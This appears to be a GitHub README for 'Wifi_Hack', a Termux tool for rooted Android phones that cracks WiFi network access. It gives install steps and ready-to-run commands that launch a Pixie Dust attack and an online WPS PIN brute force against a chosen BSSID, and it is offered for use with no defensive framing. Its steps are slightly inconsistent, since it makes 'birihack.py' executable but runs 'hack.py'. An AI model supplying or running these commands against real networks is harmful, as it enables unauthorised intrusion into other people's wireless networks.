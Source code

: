 # Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

### Installation :

```bash
$ apt update && apt upgrade

$ pkg install -y root-repo

$ pkg install -y git tsu python wpa-supplicant pixiewps iw

$ git clone https://github.com/Saqib8976/Wifi_Hack

$ cd Wifi_Hack

$ chmod +x birihack.py

$ sudo python hack.py --help
```

#### Example : `sudo python hack.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- 
- `sudo python hack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python hack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python hack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
